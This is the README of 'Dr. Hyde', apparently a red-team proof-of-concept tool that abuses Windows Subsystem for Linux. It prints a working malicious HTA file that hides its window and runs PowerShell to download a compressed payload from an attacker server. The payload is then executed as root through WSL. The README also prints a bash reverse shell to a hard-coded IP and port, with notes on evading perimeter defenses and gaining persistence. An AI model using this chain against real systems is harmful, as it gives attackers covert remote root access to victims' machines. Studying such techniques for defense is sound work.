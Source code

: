 #### by: TheTyPhyter


Windows Subsystem for Linux 2 (WSL) allows developers to run GNU/Linux applications on a lightweight virtualized Linux kernel, which interfaces with the Windows kernel, hence the "Subsystem". While this has been a powerfull efficiency tool for red team engagements and penetration tests, it presents some glaring security issues for the system itself.

Starting in build 22H2 of Windows 10 and 11, the `wsl` PowerShell command allows users to call Linux commands and programs by prefacing them with the `wsl`. For example:

![Pasted image 20230206162823](https://github.com/TheTyPhyter/DrHyde/assets/45110834/007ea9e0-0c7b-43be-8f82-ea012c6ee373)


Interestingly when working from within the Linux kernel, Windows commands can also be called:


![Pasted image 20230206163615](https://github.com/TheTyPhyter/DrHyde/assets/45110834/6929abf8-4367-466c-8cba-0aba89f139ef)

The above screenshots demonstrate the ability to call commands between the kernels, which is the intended function of the feature. Unfortunately, I beleive this creates an insecure system, allowing attackers to hide malicous bash scripts and linux binaries. The Linux Kernal also has access to most of the Windows file system, including write privilege to the user startup folder and other sensitive directories. WSL also comes with the ability to run commands as `root` without authentication. 


# The Attack

By combining Linux and Windows commands, it becomes possible to develope a unique attack chain. 

## Setup

A web server hosts a malicious .hta (HTML Application, see below) which allows us to execute Javascript on the target machine.
```
<html>  
<head>  
<script language="JScript">  
  
function sleep(milliseconds) {  
        timeStart = new Date().getTime();  
        while (true) {  
            elapsedTime = new Date().getTime() - timeStart;  
            if (elapsedTime > milliseconds) {  
                break;  
            }  
        }  
    }  
   
window.moveTo(-1, -1);  
window.blur();  
window.resizeTo(0, 0);  
WshShell = new ActiveXObject("WScript.Shell");  
outFile = " $home/2.gz";  
line1 = "%comspec% /k powershell.exe -WindowStyle hidden Invoke-Webrequest http:\/\/192.168.1.197:8000/1.gz -outfile";  
line2 = "%comspec% /k powershell.exe -WindowStyle hidden wsl -u root gzip -d /mnt/c/Users/$env:UserName/2.gz";  
line3 = "%comspec% /k powershell.exe -WindowStyle hidden wsl -u root bash /mnt/c/Users/$env:UserName/2";  
WshShell.Run(line1 + outFile);  
sleep(1000);  
WshShell.Run(line2);  
sleep(5000);  
WshShell.Run(line3);  
</script>  

<hta:application  
caption="no"  
windowState="minimize"  
showInTaskBar="no"  
scroll="no"  
navigable="no" />            <!--  -->  
</head>  
<body>  
</body>  
</html>
```


- We also host a bash script that has been compressed into a .gz in an effort to evade perimeter defense. This bash script sets up a reverse TCP connection to the attack box by redirecting stdin and stdout to the tcp connection.

```
#! /bin/bash
sh -i >& /dev/tcp/45.79.112.50/4445 0>&1
```


# Dr. Hyde

Dr. Hyde is a proof of concept tool that that starts a simple Python HTTP server to host our payloads. It also starts a simple tcp listener to catch a non-interactive shell. Once the reverse shell is established, it becomes possible to run both bash and PowerShell commands.

We enter the command `mshta <URL to Malicious .hta>`

- The JavaScript in the .hta calls the %comspec% variable (which is the directory where the default command interpreter, CMD, lives) which in turn calls powershell to download the compressed bash script from our malicous webserver.
- The next command calls wsl as root to decompress the file and save the output to the users home directory.
- The last command executes the bash script as root establishing the connection back to the listener on the attack box.

After the attack chain is complete, the remote attacker is left with a non-interactive shell as the user "root" on the Linux shell, and the victim user in the Windows PowerShell.

After persistence is established, standard methods of gaining an interactive shell can be employed, and having access to GNU/Linux toolsets improves conditions for the attacker. 

## Demo





https://github.com/TheTyPhyter/DrHyde/assets/45110834/d634a706-9f82-4350-a1de-c2aa64073fc0

